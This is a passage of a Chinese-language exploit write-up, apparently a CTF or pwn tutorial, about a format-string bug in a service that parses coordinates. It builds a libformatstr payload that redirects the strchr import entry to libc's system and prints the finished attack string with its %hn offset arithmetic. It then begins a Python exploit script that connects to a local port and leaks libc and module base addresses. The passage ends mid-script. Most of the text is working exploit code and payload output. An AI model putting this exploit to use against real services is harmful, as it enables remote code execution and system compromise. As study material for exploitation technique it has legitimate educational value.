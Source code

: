 ```
preload = "51.492137, -0.192878 :"
prelen = len(preload)                       ###22###
offset = ((system_funaddr >> 16 - prelen) << 16) + ((system_funaddr - prelen) & 0xffff)
fsb = libformatstr.FormatStr()
fsb[strchr_iataddr] = offset & 0xffffffff   ###0x7e61fa###
index = (60 + prelen + 3) / 4
payload = fsb.payload(index, prelen)
exp = preload + payload + "\n"

```

生成的攻击串exp为：

```
51.492137, -0.192878 :%126c%27$hn%24956c%28$hnAA\x5e\xd0\x2a\x00\x5c\xd0\x2a\x00

```

其中包含\x00，这是不完美的，但不影响功能。

关于exp的几点说明：

1.  由于%hn只能修改一个WORD，因此修改一个DWORD需要2个%hn。
2.  exp中"51.492137, -0.192878 :%126c"为22+126(0x94)，对应x5e\xd0\x2a\x00的2字节。
3.  exp中"51.492137, -0.192878 :%126c%24956c"为22+126+24956(0x6210)，对应x5c\xd0\x2a\x00的2字节。
4.  攻击串必须被放在栈中，否则构造的\x5e\xd0\x2a\x00\x5c\xd0\x2a\x00无法被%27$hn访问到。
5.  从预分析中得知call printf时ESP到exp头的距离是60字节(0xBFFF501C-0xBFFF4FE0),由index = (60 + prelen + 3)/4，向上取整即第21个参数，生成时加了6个是payload本身的长度，从而确保[esp+27*4]处正好是\x5e\xd0\x2a\x00。
6.  libformatstr会根据prelen的长度，以及payload本身的长度计算\x5e\xd0\x2a\x00\x5c\xd0\x2a\x00前需要补充的padding，因此fsb.payload的第二个参数设置为prelen。但在计算%c的时候有没有考虑prelen的长度，需要自己求得修正后的offset。

0x05 exp代码
==========

* * *

```
# -*- coding: utf-8 -*-

import sys
import socket
import time
import telnetlib
import libformatstr

def read_data(expsock, endstr):
    data = ''
    while not data.endswith(endstr):
        data += expsock.read(1)
    return data

offset_system  = 0x3b210
offset_strchr_iat = 0x505c

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.connect(('127.0.0.1', 2606))
expsock = sock.makefile('rw', bufsize=0)

print read_data(expsock, "Selection: ")
expsock.write("3\n")
print read_data(expsock, "Coordinates: ")

expsock.write("51.492137, -0.192878 :%282$p:%275$p:\n")
respond = read_data(expsock, "Coordinates: ")

libc_base = int(respond.split(':')[1],16) - 0xc744
mod_base = int(respond.split(':')[2],16) - 0x1491
```